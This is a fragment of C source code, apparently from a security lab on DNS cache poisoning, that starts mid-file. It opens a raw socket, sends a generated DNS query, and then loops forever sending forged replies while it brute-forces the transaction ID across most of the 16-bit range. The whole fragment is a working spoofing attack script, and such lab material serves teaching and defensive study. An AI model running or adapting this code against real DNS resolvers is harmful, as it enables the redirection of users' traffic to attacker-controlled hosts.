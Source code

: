 ```c
}

void send_pkt(char* buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable=1;
  
  int sock=socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &enable, sizeof(enable));
  
  struct ipheader *ip = (struct ipheader *)buffer;
  struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));

  dest_info.sin_family = AF_INET;
  dest_info.sin_addr.s_addr = ip->iph_destip;
  
  udp->udph_chksum=check_udp_sum(buffer, pkt_size-sizeof(struct ipheader));
  if(sendto(sock, buffer, pkt_size, 0, (struct sockaddr *)&dest_info, sizeof(dest_info)) < 0){
		printf("packet send error %d which means %s\n",errno,strerror(errno));
	}
  close(sock);
}

int main(int argc, char *argv[])
{
    
    ////////////////////////////////////////////////////////////////////////
    // dns fields(UDP payload field)
    // relate to the lab, you can change them. begin:
    ////////////////////////////////////////////////////////////////////////
    
    while(1)
    {
      system("sudo python general_dns.py"); // random pkt
      
      // read pkt
      FILE * f_q = fopen("query.bin","rb");
      char q_buffer[PCKT_LEN];
      int q_n = fread(q_buffer, 1, PCKT_LEN, f_q);
      send_pkt(q_buffer, q_n);
      
      FILE * f_r = fopen("reply.bin","rb");
      char r_buffer[PCKT_LEN];
      int r_n = fread(r_buffer, 1, PCKT_LEN, f_r);
      
      for(unsigned short i=10000;i<65535;i++){ //random id:1000~2000
        unsigned short order=htons(i); //little->big
        memcpy(r_buffer+28,&order,2);
        send_pkt(r_buffer, r_n);
      }
    }

    /////////////////////////////////////////////////////////////////////
    //
    // DNS format, relate to the lab, you need to change them, end
    //
    //////////////////////////////////////////////////////////////////////

    return 0;
}
```
